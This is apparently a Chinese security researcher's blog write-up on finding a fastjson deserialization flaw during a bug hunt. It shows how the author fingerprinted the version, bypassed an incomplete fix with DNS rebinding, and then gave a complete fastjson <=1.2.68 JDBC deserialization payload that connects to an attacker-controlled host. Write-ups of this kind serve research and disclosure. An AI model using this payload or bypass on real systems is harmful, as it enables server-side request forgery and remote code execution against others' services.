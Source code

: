   
这里使用  
  
{"@type": "java.lang.AutoCloseable"  
  
服务端直接报错返回fastjson版本（补图）  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/RjOvISzUFq5vcxXGxJwvo3NmiaV5ib2KhkZHiaOTdtO9ia6LEUmicB21TibLafHeHT4FGmmVELozzicYdRrOda56QkAibg/640?wx_fmt=png&from=appmsg "")  
  
fastjson<=1.2.68一般使用JDBC相关利用链，但是这里我没有进行利用，直接提交报告。我赌他肯定不会完完全全修复的，果然等了几天后漏洞确认并进行了修复，但是没有完全修复。hahahaha~~  
  
## 梅开二度  
  
  
上面提到，漏洞被修复了，然后我就查看它是如何进行修复的，经过一番测试发现，传入的url地址不能为ip地址，从传入域名没有进行限制。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/RjOvISzUFq5vcxXGxJwvo3NmiaV5ib2KhkiaicQW2FiaTrt6VEGial495wEiarVlqtUQSOcJNPgp4JmQbMiaUqoooJunGw/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/RjOvISzUFq5vcxXGxJwvo3NmiaV5ib2KhkxTRCuZwJibrCv19TzpBjIibvl67dicjNyqGhpjicqaa63sgt5uS0WsA9cQ/640?wx_fmt=png&from=appmsg "")  
  
这要怎么利用呢？可以使用**DNS重绑定**  
绕过限制，众所周知DNS协议的作用是域名到IP的过程，如果将域名指定为一个内网IP就能就能绕过限制。  
http://dnslog.pw/  
就有这个功能  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/RjOvISzUFq5vcxXGxJwvo3NmiaV5ib2KhkNIFyNMicYBvXT2QspBm9nNM1WBzdgIkaUw5onxto1rG9tdGicMjV4FMA/640?wx_fmt=png&from=appmsg "")  
  
这里可以自己申请一个域名或者使用DNS重绑定的IP指向自己的VPS（国内VPS要备案）  
  
  
那么接下来就进行fantjson反序列化测试了。  
  
# Fastjson <= 1.2.68反序列化RCE探索  
  
  
对于fastjson <= 1.2.68版本，目前常用的利用链是JDBC文件读取、JDBC反序列化、文件写入还有文件读取等，不过较通用的是JDBC文件读取、JDBC反序列化  
  
## fastjson依赖库判断  
  
  
在进行JDBC利用链探测时，首先要判断  
mysql-connector-java  
版本是多少，我这里直接使用对于的poc  
  
  
来自这篇文章：  
```
https://mp.weixin.qq.com/s/I0OdFPnRH_r1yZ04tOB-cw
```  
  
fastjson<=1.2.68 mysql-connector-java-5.1.1-5.1.49可SSRF 5.1.11至5.1.48可反序列化   
```
{
  "@type": "java.lang.AutoCloseable",
  "@type": "com.mysql.jdbc.JDBC4Connection",
  "hostToConnectTo": "YOUR_DNSLOG",
  "portToConnectTo": 3306,
  "info": {
    "user": "yso_xxx",
    "password": "pass",
    "statementInterceptors": "com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor",
    "autoDeserialize": "true",
    "NUM_HOSTS": "1"
  },
  "databaseToConnectTo": "dbname",
  "url": ""
}
```  